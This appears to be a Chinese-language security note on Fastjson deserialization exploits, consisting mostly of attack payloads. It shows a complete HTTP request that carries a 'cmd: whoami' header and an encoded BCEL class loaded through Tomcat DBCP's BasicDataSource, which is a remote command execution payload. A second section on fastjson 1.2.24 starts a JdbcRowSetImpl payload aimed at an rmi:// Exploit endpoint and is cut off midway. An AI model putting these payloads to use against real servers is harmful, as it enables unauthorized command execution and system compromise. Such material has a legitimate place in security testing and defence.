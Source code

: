 ```
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
cmd: whoami
Content-Length: 3327

{
    {
        "@type": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$cb$5b$TW$U$ff$5dH27$c3$m$g$40$Z$d1$wX5$a0$q$7d$d8V$81Zi$c4b$F$b4F$a5$f8j$t$c3$85$MLf$e2$cc$E$b1$ef$f7$c3$be$ec$a6$df$d7u$X$ae$ddD$bf$f6$d3$af$eb$$$ba$ea$b6$ab$ae$ba$ea$7fP$7bnf$C$89$d0$afeq$ee$bd$e7$fe$ce$ebw$ce$9d$f0$cb$df$3f$3e$Ap$I$df$aaHbX$c5$IF$a5x$9e$e3$a8$8a$Xp$8ccL$c1$8b$w$U$e4$U$iW1$8e$T$i$_qLp$9c$e4x$99$e3$94$bc$9b$e4$98$e2$98VpZ$o$cep$bc$c2qVE$k$e7Tt$e2$3c$c7$F$b9$cep$bc$ca1$cbqQ$G$bb$c4qY$c1$V$VW$f1$9a$U$af$ab0PP$b1$h$s$c7$9c$5c$85$U$f3$i$L$iE$F$96$82E$86$c4$a8$e5X$c1Q$86$d6$f4$c0$F$86X$ce$9d$T$M$j$93$96$p$a6$x$a5$82$f0$ce$Z$F$9b4$7c$d4$b4$pd$7b$3e0$cc$a5$v$a3$5c$bb$a2j$U$yQ$z$94$ac$C$9b$fc2$a8y$b7$e2$99$e2$84$r$z$3b$f2e$cfr$W$c6$cd$a2$9bY4$96$N$N$H1$a4$a0$a4$c1$81$ab$a1$8ck$M$a3$ae$b7$90$f1k$b8y$cf$u$89$eb$ae$b7$94$b9$$$K$Z$d3u$C$b1$Sd$3cq$ad$o$fc$ms6$5cs$a1z$c2$b5$e7$84$a7$c0$d3$e0$p$60$e8Z$QA$84$Y$L$C$cf$wT$C$e1S$G2l$d66$9c$85l$ce6$7c_C$F$cb$M$9b$d7$d4$a7$L$8b$c2$M$a8$O$N$d7$b1$c2p$ec$ff$e6$93$X$de$b2$bda$d0$b6Z$$$7e$d9u$7c$oA$5d$cb$8ca$a7$M$bc$92$f1C$db5$lup$92$c03$9e$V$I$aa$eb$86$ccto$b3A1$I$ca$99$J$S$cd$d1C$c3$Ja$Q$tM$d5$e5$DY$88$867$f0$s$f5$d9$y$cd1$u$ae$9fq$a80$Foix$h$efhx$X$ef$d1$e5$cc$c9i$N$ef$e3$D$86$96$acI$b0l$c1r$b2$7e$91$8eC$a6$86$P$f1$R$e9$q$z$81$ed0l$a9$85$a8$E$96$9d$cd$9b$86$e3$c8V$7c$ac$e1$T$7c$aa$e13$7c$ae$e0$a6$86$_$f0$a5l$f8W$e4$e1$f2$98$86$af$f1$8d$86$5b2T$7c$de$aeH$c7q$d3ve$d1$9dk$f9$8e$af$98$a2$iX$$$85$e85$ddRv$de$f0$83E$dfu$b2$cb$V$8a$b4$3aM$M$3dk6$9e$98$b7$a9$85$d9$v$R$U$5d$w$b0$f3$d2$e4$a3$E$8c4$91r$ae$e8$RS4$cdf$c5$f3$84$T$d4$cf$5d$e9$81$c9GQd$d9M$d4FSW$9b$a1I7$a4Yo$827$5cI$9b$N$_$a8M6mj$gjmz$7d$9e$eb$3c$8e$84$ad$ad$d7vl$D$9bK$ebl$g$bd4$b3C$ee$S$96$b3$ec$$$R$edG$g$7d$85$cf$a0$c9W$a4$gX$af$a2$feSN$c7$85i$h$9e$98$ab$e7$d6$ee$8b$60$cc4$85$ef$5b$b5$efF$y$7dQ$7eW$g$a7$f1$86$l$88R$f8$40$cexnYx$c1$N$86$7d$ff$c1$c3j$L$db$C$f7$7c$99$8cr$86$9c$9a$e6n$ad$82$b8$7c$a7$86$e5$Q$c1$bd$8d$8esE$c3$cb$cb$d7$e2$98bd$e0$o$Be$5b$c3Nt$ae$ef$e4H$7d$c6k$aa$b3$V$t$b0J$f5$c7$5c$3ft7$99Ej2$8c$89$VA$_$u$9d$de$60$Q$h$z$88$C$c9Vs$a8H$c9$b0$89B$9dt$ca$95$80$y$85A$acm$ab$87$b3$dcl$c3$F$99$f7$a47$bc$90$eck$V_$i$X$b6U$92$df$U$86$fd$ff$ceu$e3c$96E84$ef$e8$c3$B$fa$7d$91$7f$z$60$f2$ebM2C$a7$9d$b42Z$e3$83w$c1$ee$d0$86$nK2QS$s$c0$f1D$j$da$d2O$O$da$Ip$f5$kZ$aahM$c5$aa$88$9f$gL$rZ$efC$a9$82O$k$60$b4KV$a1NE$80$b6$Q$a0$d5$B$83$a9$f6h$3b$7d$e0$60$84$j$8e$N$adn$e3$91$dd$s$b2Ku$84$d0$cd$c3$89H$bbEjS1$d2$ce$b6$a6$3a$f3$f2J$d1$VJ$a2KO$84R$8f$d5$3dq$5d$d1$e3$EM$S$b4$9b$a0$ea$cf$e8$iN$s$ee$93TS$5b$efa$5b$V$3d$v$bd$8a$ed$df$p$a5$ab$S$a3$ab$b1To$fe6$3a$e4qG$ed$b8$93d$5cO$e6u$5e$c5c$a9$5d$8d$91u$k$3a$ff$J$bbg$ef$a1OW$ab$e8$afb$cf$5d$3c$9e$da$5b$c5$be$w$f6$cb$a03$a1e$3a$aaD$e7Qz$91$7e$60$9d$fe6b$a7$eeH$e6$d9$y$bb$8cAj$95$ec$85$83$5e$92IhP$b1$8d$3a$d0G$bb$n$b4$e306$n$87$OLc3f$b1$F$$R$b8I$ffR$dcB$X$beC7$7e$c0VP$a9x$80$k$fc$K$j$bfa$3b$7e$c7$O$fcAM$ff$T$bb$f0$Xv$b3$B$f4$b11$f4$b3Y$ec$a5$88$7b$d8$V$ec$c7$93$U$edY$c4$k$S$b8M$c1S$K$9eVp$a8$$$c3M$b8$7fF$n$i$da$k$c2$93s$a3$e099$3d$87k$pv$e4$l$3eQL$40E$J$A$A"
        }
    }: "x"
}
```
<a name="ulc4T"></a>
### fastjson 1.2.24 
没有黑名单过滤。
```
{
"b":{
          "@type":"com.sun.rowset.JdbcRowSetImpl",
          "dataSourceName":"rmi://:6666/Exploit",
```